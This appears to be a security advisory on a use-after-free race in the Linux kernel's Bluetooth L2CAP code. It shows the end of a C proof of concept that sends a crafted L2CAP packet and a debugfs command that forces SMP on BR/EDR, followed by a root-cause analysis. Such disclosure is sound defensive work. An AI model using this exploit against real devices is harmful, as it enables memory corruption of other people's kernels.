 ```c
  packet.cmd_hdr.len = sizeof(packet.req);
  packet.req.psm = htobs(0);
  packet.req.scid = htobs(0x42);

  printf("[*] Sending malicious L2CAP packet...\n");
  hci_send_acl_data(hci_socket, hci_handle, &packet, sizeof(packet));

  close(l2_sock);
  hci_close_dev(hci_socket);

  return 0;
}
```
To make SMP available for BR/EDR devices (in case of a hardware supporting it is not available), you can force it by running: `echo Y > /sys/kernel/debug/bluetooth/hci0/force_bredr_smp`


### Further Analysis
**Bug Analysis**
There are UAF races in [l2cap_connect](https://github.com/torvalds/linux/blob/2bca25eaeba6190efbfcb38ed169bd7ee43b5aaf/net/bluetooth/l2cap_core.c#L4113) and [l2cap_le_connect_req](https://github.com/torvalds/linux/blob/2bca25eaeba6190efbfcb38ed169bd7ee43b5aaf/net/bluetooth/l2cap_core.c#L5789) methods. After a channel is created via the `new_connection` callback, it is not locked but `__set_chan_timer` sets up a timer which can call `l2cap_chan_timeout` and can cleanup the channel before the method finishes, causing [UAF read in l2cap_le_connect_req](https://github.com/torvalds/linux/blob/2bca25eaeba6190efbfcb38ed169bd7ee43b5aaf/net/bluetooth/l2cap_core.c#L5899) and [UAF write in l2cap_connect](https://github.com/torvalds/linux/blob/2bca25eaeba6190efbfcb38ed169bd7ee43b5aaf/net/bluetooth/l2cap_core.c#L4247).

As the channel timeout is normally [40 seconds](https://github.com/torvalds/linux/blob/2bca25eaeba6190efbfcb38ed169bd7ee43b5aaf/include/net/bluetooth/l2cap.h#L55) (`L2CAP_CONN_TIMEOUT`), winning the race would be infeasible, but due to a bug in SMP's implementation, SMP channels [created by smp_new_conn_cb](https://github.com/torvalds/linux/blob/2bca25eaeba6190efbfcb38ed169bd7ee43b5aaf/net/bluetooth/smp.c#L3241) have their `get_sndtimeo` callback set to `l2cap_chan_no_get_sndtimeo` which [returns 0](https://github.com/torvalds/linux/blob/2bca25eaeba6190efbfcb38ed169bd7ee43b5aaf/include/net/bluetooth/l2cap.h#L964) as timeout value thus causing the timer to run immediately (on a different thread) after the `__set_chan_timer` call.

Note: in `l2cap_le_connect_req` (without `FLAG_DEFER_SETUP`), the timer is canceled via the `l2cap_chan_ready` call almost immediately after the `__set_chan_timer` call, but even this small time window enough for the timer with 0 timeout to start.

Another root cause of the issue can be that the SMP channel is available via `l2cap_global_chan_by_psm` if the request contains `psm=0`. Multiple channels can be registered without PSM (PSM is 0, and channel is identified by SCID) but only one of them is returned (which needs to be SMP to be able to trigger the vulnerability).

```c
static int l2cap_le_connect_req(...)
{
    ...
    mutex_lock(&conn->chan_lock);
    ...
    chan = pchan->ops->new_connection(pchan); // chan is not locked
    ...
    __set_chan_timer(chan, chan->ops->get_sndtimeo(chan)); // triggers l2cap_chan_timeout running from a different thread
    ...
    if (test_bit(FLAG_DEFER_SETUP, &chan->flags)) { // branch usually not taken
        ...
    } else {
        l2cap_chan_ready(chan); // calls __clear_chan_timer(chan), resets timer
        result = L2CAP_CR_LE_SUCCESS;
    }    
    ...
```